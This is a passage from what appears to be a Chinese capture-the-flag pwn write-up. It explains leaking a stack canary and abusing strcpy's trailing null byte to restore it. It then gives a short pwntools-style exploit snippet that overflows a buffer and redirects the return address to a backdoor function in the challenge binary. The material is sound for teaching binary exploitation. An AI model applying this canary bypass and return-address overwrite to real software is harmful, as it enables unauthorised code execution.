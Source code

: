 [![](assets/1706146504-5712879b64a435ca1a6c101dca9b536b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121233716-f49e74c8-b872-1.png)  
覆盖 00，然后泄露出来减去 0x61 即可  
然后后面利用 strcpy 去溢出覆盖返回地址

```plain
backdoor=0x4012BB
ru('you like to leave(MAX 4): ')
sl('2')
sl('a'*(0xa0-0x8)+p64(canary+0xaa)+'a'*8+p64(0x4012c3))
sl('a'*0x78)
```

这里是利用的 strcpy 的一个特性  
strcpy 遇到'\\x00'截断，不过会在最后加'\\x00'  
先填上 canary+0xaa，然后直接利用 strcpy 最后的置 0 就可以

[![](assets/1706146504-4aae8613710975bd00de5ef2190af145.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121233741-0355b846-b873-1.png)
